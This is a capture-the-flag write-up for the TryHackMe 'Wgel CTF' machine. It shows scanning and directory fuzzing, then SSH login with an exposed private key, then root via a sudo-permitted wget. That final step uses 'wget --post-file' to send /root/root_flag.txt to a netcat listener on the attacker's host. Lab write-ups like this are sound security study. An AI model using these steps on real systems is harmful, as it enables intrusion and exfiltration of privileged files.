 # Wgel CTF

Macinne consist in access to the server and privsec via wget.

## Nmap scan

```bash
 $ nmap -sC -sV -T4 10.10.185.51
Nmap scan report for 10.10.185.51
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This machinne have the port 80 and 22.

## Enumeration

Open browser and access to the ip, is a Apache Default site.

![Foto(https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/Apache%20site.png)]

If we go deep more and view the source code we look a name that is a possible Username.

![Foto(https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/Apache%20code.png)]

Then ** Jessie ** is a possible username.

## Fuzzing to the website

``` bash

$ gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/
```
The result is that and the sitemap directory catches my attention.
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/sitemap (Status: 301)
```
![Sitemap()]

Finding into the source code I didn't find anything.
<br>
We keep listing into the sitemap directory.

```bash
$  gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/sitemap
```
In this search i found ** /.ssh ** Directory.

![.ssh directory(https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/ssh.png)]

We Download the file and give the respective permissions

```bash
$ wget http://10.10.185.51/sitemap/.ssh/id_rsa ;chmod 600 id_rsa
```
## access to the ssh

As we already found the possible ssh information, we proceed to access to the ssh.

Username: Jessie
Password: id_rsa file

```bash
$ ssh -i id_rsa jessie@10.10.185.51   
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
Successfully, we access to the machinne.

### user.txt

```bash
jessie@CorpOne:~/Documents$ cat user_flag.txt 

057c67131c3d5e42d***************
```
## Privsec

We Check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
We go to the GTFObins(https://gtfobins.github.io/gtfobins/wget/#file-upload) File Upload

![Wget GTFO BINS(https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/GTFO_wget.png)]

We put our machine to listen with netcat and prepare to receive the packet.

### Our Machinne

```bash
$ nc -lvnp 5689
```
### Victim Machinne

```bash
$ sudo /usr/bin/wget --post-file /root/root_flag.txt MYIP:5689/
```

### Get root flag

```bash
nc -lvnp 5689                                                   13:03:32
listening on [any] 5689 ...
connect to [MYIP] from (UNKNOWN) [10.10.185.51] 58358
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: MYIP:5689
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1da***************

```

